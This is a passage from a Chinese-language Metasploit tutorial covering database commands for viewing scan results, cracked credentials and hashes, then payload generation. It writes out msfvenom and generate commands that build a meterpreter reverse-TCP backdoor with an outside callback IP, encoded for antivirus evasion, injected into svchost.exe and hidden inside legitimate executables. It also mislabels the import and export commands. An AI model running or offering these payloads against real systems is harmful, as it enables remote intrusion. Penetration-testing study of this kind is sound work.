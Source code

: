 加了地址就只显示这个地址的信息，-u 只显示 up 状态的主机，-c 只显示列信息比如-c address,mac 就只显示 ip 地址和 mac 信息，-S 是搜索结果中的关键词。

```plaintext
hosts [-u] [-c col1,col2] [-S] [ipadd]
```

可以显示 db\_nmap 扫描结果中 host 开放了那些端口，-p 1-1000 就只显示这个范围内开放的端口，和 hosts 使用方法类似，更多信息使用 -h 查看帮助文档。

```plaintext
services [-p port_num]
```

查看爆破出的密码信息。

```plaintext
creds
```

查看漏洞信息。

```plaintext
vulns
```

查看密码 hash 值。

```plaintext
loot
```

导入数据库，可以将 nmap 扫描结果的 xml 文件导入 msf 数据库中，导入后用 hosts 查看详细信息。

```plaintext
db_export
```

将 msf 数据库导出，-f 指定格式。

```plaintext
db_import -f xml path
```

### 生成 Payload 反弹 Shell

\-f 指定输出类型  
\-b 重新编码坏字符，坏字符会导致 ShellCode 执行失败  
\-e 指定编码器如果不填这个选项 msf 会自动选择最佳编码器，-i 5 编码 5 次  
\-s 14 会在 payload 前面加上 14 字节的 NOP(Next Operaction)，这个 NOP 是指无操作，EIP 寄存器遇到这个指令就会往下找下个字节一直到可以运行的字节，这样可能到达免杀效果 (在练习中无法使用这个选项，不知道怎么回事)  
\-k 在程序运行中不会产生新进程只会在进程中多出一个线程，也就是说运行 1.exe 不会产生一个 2.exe 出来  
\-x 使用 /root/mstsc.exe 作为模板  
\-o 将 payload 和模板绑在一起输出成 mm.exe 文件。

```plaintext
generate -f exe -b '\x00\xff' -i 10 -k -x /root/mstsc.exe -o /root/mm.exe
```

使用 msfvenom 工具生成 Payload，下面生成示例只是为了展示所有存在选项。

```plaintext
msfvenom -p windows/meterpreter/reverse_tcp -a x86_64 --platform windows LHOST=45.32.1.1 LPORT=6000 -e x64/xor_dynamic -i 15 -b PrependMigrate=true PrependMigrateProc=svchost.exe -x ./mongo.exe -k -f exe -o ./1.exe
```
